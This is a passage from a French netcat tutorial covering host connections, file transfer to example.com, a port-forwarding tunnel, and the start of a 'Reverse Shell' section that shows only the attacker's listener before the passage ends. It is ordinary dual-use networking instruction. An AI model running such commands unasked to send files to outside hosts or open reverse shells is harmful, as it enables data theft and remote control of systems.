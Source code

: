 **Commande de base :**

```bash
nc example.com 1234
```

* **Explication** :
  * `example.com` : Adresse de l’hôte cible.
  * `1234` : Port sur lequel se connecter.

**Exemple avec une adresse IP :**

```bash
nc 192.168.1.100 1234
```

***

#### 3. Transfert de Fichiers

**Sur l'hôte récepteur (en écoute) :**

```bash
nc -l -p 1234 > received_file.txt
```

* **Explication** :
  * Le fichier reçu sera enregistré en tant que `received_file.txt`.

**Sur l'hôte émetteur (expéditeur) :**

```bash
nc example.com 1234 < file_to_send.txt
```

* **Explication** :
  * `file_to_send.txt` : Fichier à envoyer.

***

#### 4. Création d’un Tunnel

Créer un tunnel pour rediriger un port local vers un port distant :

**Commande :**

```bash
nc -l -p 1234 | nc example.com 5678
```

* **Explication** :
  * Le trafic entrant sur le port local `1234` est redirigé vers le port `5678` de `example.com`.

***

#### 5. Reverse Shell

**Sur l’attaquant (en écoute) :**

```bash
nc -l -p 1234
```
